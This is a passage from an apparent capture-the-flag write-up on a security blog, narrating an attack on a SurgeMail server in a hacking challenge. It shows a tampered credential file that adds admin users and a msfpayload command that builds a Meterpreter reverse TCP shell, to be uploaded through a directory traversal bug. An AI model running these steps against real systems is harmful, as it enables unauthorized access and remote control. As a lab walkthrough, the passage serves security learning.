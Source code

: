 I simply changed the password for the n00b user, added a new user corelanc0d3r (again with the same “admin” hash), and then uploaded the file. I also added a user devil (again with the same password), and uploaded the file again to the server

```
peter@krypt2:/vpn/70$ cat nwauth.add
corelanc0d3r@killthen00b:{ssha}fqwU1VAdjf6TTr7Av3pUYDxHJ6Y8TQxt:
n00b@killthen00b:{ssha}fqwU1VAdjf6TTr7Av3pUYDxHJ6Y8TQxt:
devil@killthen00b:{ssha}fqwU1VAdjf6TTr7Av3pUYDxHJ6Y8TQxt:
```

*(again, when I performed the exercise, this file was readable and could be downloaded.  It looks like muts and his friends got fed up by people trying to change passwords and they finally blocked access to this file)*

Anyways, I uploaded the modified nwauth.add file and tried to log in to the domadmin (Domain Management) page using the “corelanc0d3r” and password “admin” combination

[![image](:/799f834936bc40a6b73c2e41b4735a6b "image")](https://www.corelan.be/wp-content/uploads/2010/05/image32.png)

[![70_domadmin1](:/347525059cb54adba895e9d2260ae333 "70_domadmin1")](https://www.corelan.be/wp-content/uploads/2010/05/70_domadmin1.png)

Result :

[![71_domadmin2](:/c6e36b498d714f2097bcdb104f8da038 "71_domadmin2")](https://www.corelan.be/wp-content/uploads/2010/05/71_domadmin2.png)

Nice.

Let’s see if I can create some stuff here (just for fun). I decided to create a little blog and publish it on the server :

[![corelanc0d3r_blog](:/24b62d0758dc44788011c654dafa0ae2 "corelanc0d3r_blog")](https://www.corelan.be/wp-content/uploads/2010/05/corelanc0d3r_blog.png)

muahaha…   ok, enough playing.   So I found a second serious vulnerability on this box.  But I should stay focussed and try to 0wn the machine in order to grab the “secret key” from the machine, which is what is really needed to complete this challenge. Focus Peter, Focus.

I went back to the surgemail home page and clicked on the “webmail” link.

When looking at the WebMail login page, I noticed this :

[![image](:/31e5d9766dd84a63983fb884f0339f3f "image")](https://www.corelan.be/wp-content/uploads/2010/05/image14.png)

WebMail appears to be an executable, in the scripts folder.  So what if we can put our own executable in this “scripts” folder and call it from the web browser ?

First, using metasploit’s msfpayload, let’s create an evil executable (Meterpreter reverse tcp shell) that would give us a nice shell :

```
./msfpayload windows/meterpreter/reverse_tcp RHOST=192.168.6.114 RPORT=4444 LHOST=192.168.6.114 LPORT=4444 X > _corelanc0d3r.exe
```

I then uploaded the file to the scripts folder via the FTP directory traversal bug :
